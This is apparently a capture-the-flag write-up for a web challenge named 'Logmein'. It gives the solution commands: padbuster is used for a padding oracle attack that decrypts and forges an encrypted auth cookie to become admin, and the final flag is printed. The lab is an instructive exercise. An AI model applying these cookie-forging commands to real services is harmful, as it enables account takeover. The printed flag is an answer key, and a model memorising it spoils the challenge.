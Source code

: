 # Logmein

## Question Text

Pardon the shitty website design

*Creator - PotatoDrug*

## Setup Guide
1. Run `./build.sh`

## Solution
View source at the index page and one of the comments contain `guest:guest` which is a valid account.

After logging in as guest we see the message 'I think the admin user has a more interesting profile', hinting that we need to become the admin user.

We are given a auth cookie which is encrypted upon logging in. If we alter with the cookie value we are given an error page, we can try using this to do a padding oracle attack.

We can see that padbuster successfully decrypted the encrypted value and the plaintext is user=guest.
```bash
➜ VAL="0kDV0sd/qVcniaQrNV1O9DjAljLexxYhHASgoRj3DH8="
➜ padbuster http://172.16.180.1:3000/profile $VAL 16 -cookies "auth=$VAL"
-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=guest

[+] Decrypted value (HEX): 757365723D6775657374060606060606

[+] Decrypted value (Base64): dXNlcj1ndWVzdAYGBgYGBg==
```

Now our we just have to change that to `user=admin`
```bash
-------------------------------------------------------
➜ padbuster http://172.16.180.1:3000/profile $VAL 16 -cookies "auth=$VAL" -plaintext 'user=admin'
-------------------------------------------------------
** Finished ***

[+] Encrypted value is: 52U10BQGKRepGlfUJwshHQAAAAAAAAAAAAAAAAAAAAA%3D
-------------------------------------------------------
```

We can get the flag if we set the encrypted value of `user=admin` as our cookie value.
```bash
➜ curl -s http://127.0.0.1:3000/profile --cookie "auth=52U10BQGKRepGlfUJwshHQAAAAAAAAAAAAAAAAAAAAA%3D" | grep -o 'GCTF{.*}'
GCTF{l34K1NG_1nF0Rm4710n_1n_Un3xP3C73d_w4YZ}
```

### Flag
`GCTF{l34K1NG_1nF0Rm4710n_1n_Un3xP3C73d_w4YZ}`

## Recommended Reads
* https://robertheaton.com/2013/07/29/padding-oracle-attack/
* https://www.youtube.com/watch?v=aH4DENMN_O4